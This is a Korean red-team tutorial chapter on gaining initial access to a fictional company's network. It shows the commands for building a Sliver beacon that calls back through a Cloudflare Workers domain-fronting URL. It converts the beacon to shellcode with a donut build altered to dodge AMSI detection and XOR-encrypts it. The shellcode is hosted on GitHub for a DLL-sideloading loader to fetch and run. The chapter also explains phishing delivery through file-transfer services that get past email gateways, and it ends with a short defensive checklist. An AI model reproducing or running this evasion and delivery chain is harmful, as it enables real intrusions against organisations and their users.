





# 2. 초기 침투

이번 섹션에서는 다음의 주제들을 다룬다:

* DLL Sideloading
* 페이로드 무기화 및 전송
* 파일 전송 서비스를 이용한 피싱 이메일 전송

<figure><figcaption></figcaption></figure>

이번 섹션에서는 라쿤 테크의 사내망에 침투하기 위한 초기 침투용 페이로드를 만드는 방법과 전송하는 방법에 대해서 다룬다.

초기침투에는 다양한 방법이 있다.

* 피싱 - 페이로드
* 피싱 - AitM
* 피싱 - AAD/EntraID (Device Code, QR, Illicit Consent Grant, ...)
* OSINT/다크웹 - 계정 정보/API 키 탈취 후 VPN, 원격 접속 (VDI/RMM), 클라우드 해킹, 등
* 물리 침투 이후 임플랜트 설치
* 침해가정 시나리오
* 외부망 해킹 - 제로데이, CVE, n-day 익스플로잇, 웹/모바일 해킹, 등

레드팀.com에 이미 정리해둔 방법들도 있지만 ([1](https://www.xn--hy1b43d247a.com/infrastructure/smtp-toolkit-relay-esp), [2](https://www.xn--hy1b43d247a.com/initial-access/aitm), [3](https://www.xn--hy1b43d247a.com/initial-access/html-smuggling)), 세팅하는데 시간이 너무 오래 걸리니 가장 간단한 파일 전송 서비스들을 이용한 페이로드 피싱 방법을 사용한다. 피싱을 하기 전, 페이로드부터 간단하게 제작한다.

## 페이로드

다양한 페이로드를 사용할 수 있지만, 이번 프로젝트에서는 여전히 실제 공격자들이 많이 사용하고 있는 [DLL 사이드로딩](https://www.xn--hy1b43d247a.com/persistence/dll-sideloading)을 사용한다. 사이드로딩 형식은 암호화된 압축 파일 안에 일반 DLL + 악성 DLL (로더) + 암호화된 쉘코드 + 정상 EXE 파일을 사용한다.

정상 EXE 파일과 악성 DLL 파일의 코드를 공유할 수는 없지만, 악용을 막기 위해 바이러스토탈에 올린 결과를 공개한다. 궁금하신 분들은 VT API와 VT 해시를 이용해 다운 받은 뒤, 리버싱 하면 된다. 리버싱 결과를 레드라쿤에 공유해주시면 감사하겠다.

<figure><figcaption></figcaption></figure>

[https://www.virustotal.com/gui/file/2b7ec56f643de87ba815836d94934d89faba08883a2d01caf7dc83cb276a97aa](https://www.virustotal.com/gui/file/2b7ec56f643de87ba815836d94934d89faba08883a2d01caf7dc83cb276a97aa)

동적 분석 결과가 없는 바이러스토탈 결과에 큰 의미는 없다. 하지만 간단하게 만든 것 치고는 정적 분석에서 Big 3 EDR (CrowdStrike, MDE, SentinelOne)에 걸리지 않았다는 것으로 만족한다. Module Stomping, Callstack spoofing, PoolParty등의 고급 기법이 없어도 정적 분석 결과가 괜찮게 나왔다. DLL 사이드로딩이야 잘 알려진 기법이고 실제 EDR 솔루션들을 상대로 사용하면 잡힐 확률이 높겠지만, 적어도 이번 프로젝트에서 상대할 full 디펜더나 AV 백신 등을 우회하는데에는 큰 어려움이 없을 것이다.

페이로드의 정확한 작동 방법은 리버싱을 할 독자분들께 맡긴다. 아래는 페이로드에 대한 간단한 설명이다.

* 대다수의 대한민국 국민, 그리고 기업 윈도우 컴퓨터에 설치되어 있는 원드라이브(Onedrive) 업데이터 파일 사용
* HellsHall을 이용한 indirect syscall
* LOTS 웹사이트를 이용한 Staged 쉘코드
* 대상 시스템에 이미 존재하는 프로세스에 대한 원격 프로세스 인젝션
* Mutex를 이용해 DLL 사이드로딩이 여러번 실행되지 않도록 조치
* 코드 서명을 사용해 합법적인 PE 파일처럼 보이게 조치

로더가 준비 되었다면 로더가 DLL 사이드로딩 시 불러올 쉘코드를 준비한다. 슬리버를 이용해 쉘코드 생성 뒤, pyHellShell을 이용해 xor 암호화를 한다. 그 뒤, LOTS를 이용하기 위해 잘 알려진 서비스들 - 구글 드라이브, 깃허브, AWS S3 버킷, Azure Data blob, 네이버 클라우드 등 - 에다 업로드 해놓는다.

## 쉘코드

* 쉘코드 생성 시 도메인 프론팅을 사용하기 위해 콜백 주소는 클라우드플레어의 워커 URL인 `https://tiny-bar-f413.fonts-cdn.workers.dev` 를 사용한다.
* 2024년 11월 기준 마이크로소프트사에서 드디어 AMSI 우회 페이로드들에 대한 본격적인 탐지를 시작했다. 특히 donut 을 사용해 만들어진 쉘코드안에 들어가는 AMSI\_BYPASS\_B 종류는 바로바로 잡아내고 있다.
* 때문에 슬리버에서 바로 쉘코드를 생성하지 말고 EXE를 먼저 만들어낸 뒤, AMSI 우회 페이로드를 변경한 donut을 사용해 슬리버 EXE를 쉘코드 형태로 변환한다.

```
# 1. 슬리버로 EXE 파일 생성
s> generate beacon -S 5 -J 1 -f exe -s /tmp/sliver.exe -b https://tiny-bar-f413.fonts-cdn.workers.dev

# 2. AMSI 우회 페이로드를 변경한 도넛 사용
git clone <https://github.com/TheWover/donut.git>
cd ./donut
sed -i 's/BYPASS_AMSI_A/BYPASS_AMSI_C/g' Makefile.mingw
make

./donut -i /tmp/sliver.exe -o /tmp/robots.bin

# 3. 쉘코드 XOR 암호화
python3 pyhellshell.py -i /tmp/robots.bin -e xor -k microsoft -f raw -out /tmp/robots.txt

[i] Input file          : /tmp/sliver.bin
[i] Encryption method   : xor
[i] Obfuscation method  : None
[i] Output format       : raw
[i] Output file         : /tmp/robots.txt

key: b'microsoft'
key length: 9
[+] Saved to file: /tmp/robots.txt

#define PayloadSize 17147202

```

이후 LOTS 사용을 위해 깃허브에 쉘코드를 업로드한다. 이후 위에서 만든 DLL 사이드로드 로더가 해당 깃허브 리포에서 암호화된 쉘코드를 다운받아 실행할 것이다.

<figure><figcaption></figcaption></figure>

## 파일 전송 서비스

페이로드가 준비 되었다면 무료 파일 전송 서비스인 TransferNow를 이용해 해당 페이로드를 전송한다. 파일 전송 서비스들은 예전부터 존재했지만, 요새 특히 SaaS 형태로 컴백 하고 있는 듯 하다. TransferNow, Send-Anywhere, Wetransfer, Hightail 등, 다양한 서비스들이 회원 가입 없이도 아무나 이메일로 파일을 전송할 수 있게 해주고 있다.

<figure><figcaption></figcaption></figure>

파일 전송 서비스의 가장 큰 장점 중 하나는 바로 높은 신뢰도다. 워낙 많이 사용되는 서비스다 보니 웬만해서는 이메일 게이트웨이를 뚫고 대상의 받은 이메일함에 도착할 확률이 높다. 공격자의 입장에서는 귀찮은 도메인 신뢰도, 메일 서버 관리, SPF, DKIM, DMARC 등을 신경쓰지 않아도 된다.

예를 들어 구글(개인), 구글 워크스페이스(기업), 네이버(개인) 등의 기본적인 이메일 보안을 갖고 있는 메일함을 상대로는 아무런 경고 없이 받은 메일함에 도착하는 것을 볼 수 있다.

<figure><figcaption></figcaption></figure>

## 우리 회사는

* DLL-Sideloading이 일어날 때, Self-Injection, Reflective DLL Injection, Remote Process Injection, 바이너리 실행 등, 엔드포인트에서 일어나는 악성 행위들을 탐지하고 방지할 수 있는 EDR 솔루션들이 설치되어 있는가?
* 엔드포인트에서 발생하는 로그를 모아 관리하고 모니터링할 수 있는 SIEM이 있는가?
* TransferNow, Send-Anywhere, Wetransfer 등의 다양한 파일 전송 서비스들의 도메인 및 이메일 양식을 파악한 뒤 차단하고 있는가?
* 이메일 게이트웨이는 수상한 파일 첨부를 파악하고 차단하고 있는가?


